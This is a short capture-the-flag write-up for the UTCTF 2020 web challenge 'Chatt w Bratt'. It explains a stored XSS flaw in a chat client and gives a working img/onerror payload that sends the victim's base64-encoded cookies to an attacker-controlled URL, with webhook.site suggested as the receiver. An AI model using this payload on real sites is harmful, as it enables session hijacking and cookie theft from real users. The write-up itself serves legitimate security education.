 # Chatt w Bratt
* **Event:** UTCTF 2020
* **Problem: Type:** Web
* **Difficulty:** Medium

## Background
You have been granted the ability to use an ADVANCED web-chat client to have a 1-on-1 
conversation with world-famous human Bratt. Unfortunately, this decision was made in a 
haste and as a result the web-chat client is actually not that advanced and has a glaring 
flaw...

#### Solution
The Chatt with Bratt web app is vulnerable to XSS - you can send a message with 
JavaScript / HTML and it will not be escaped by the Web Server or Web Client! 
Additionally, important information is stored in cookies! Given this information, you are 
looking to leak Bratt's cookies by sending a message with some malicious code - all of 
this is known as session hacking. An example message you can send would look something 
like the following: <img src='x' onerror="fetch('website_you_have_access_to?cookie=' + 
btoa(document.cookie))">. What this solution does is create an image element in the Web 
Client, and onerror (which will run since 'x' is not a valid image source) will execute a 
script which encodes into Base64 the cookies of whoever is using the Web Client and sends 
the cookies over to a website you have control of. If you don't have your own website, 
you can use a [web hook](https://webhook.site). This give you a URL to send requests to 
and allows you to see those requests. By sending this message, Bratt will eventually load 
the message on his send and his Web Client will execute the script you included to send a 
requests to your URL with his cookies encoded, which will contain the flag when you 
decode the cookies
